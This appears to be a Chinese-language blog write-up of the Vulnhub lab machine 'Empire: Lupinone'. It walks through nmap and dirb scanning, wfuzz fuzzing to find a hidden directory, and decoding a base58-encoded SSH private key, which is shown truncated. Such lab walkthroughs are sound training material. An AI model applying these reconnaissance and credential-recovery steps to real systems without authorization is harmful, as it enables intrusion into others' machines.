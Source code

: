 ```yaml
---
layout: post
title: "EMPIRE: LUPINONE"
subtitle: "EMPIRE: LUPINONE"
date: 2022-12-08 14:37
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
  - 靶场实战
---
```

## EMPIRE: LUPINONE

Difficulty: Medium

kali攻击机ip:192.168.30.130

靶机ip:192.168.30.135

### 网络扫描

```shell
nmap -A 192.168.30.135
```

开放22、80端口，扫描文件

```shell
dirb 192.168.30.135 
```

发现robots.txt，内容：

```
User-agent: *
Disallow: /~myfiles
```

```html
curl http://192.168.30.135/~myfiles/

##
<!DOCTYPE html>
<html>
<head>
<title>Error 404</title>
</head>
<body>

<h1>Error 404</h1>

</body>
</html>

<!-- Your can do it, keep trying. -->
```

查找其他目录下\~myfiles文件，无果。查找和\~myfiles文件格式类似文件

```shell
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.30.135/~FUZZ
```

找到\~secret,code:301。使用浏览器访问

```
Hello Friend, Im happy that you found my secret diretory, I created like this to share with you my create ssh private key file,
Its hided somewhere here, so that hackers dont find it and crack my passphrase with fasttrack.
I'm smart I know that.
Any problem let me know
Your best friend icex64 
```

Tps：用户名：icex64，sshkey

```
cGxD6KNZQddY6iCsSuqPzU......zDgKm2gSRN8gHz3WqS
```

base58解码：

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEA......4ORlsC
iUJ66WmRUN9EoVlkeCzQJwivI=
-----END OPENSSH PRIVATE KEY-----
```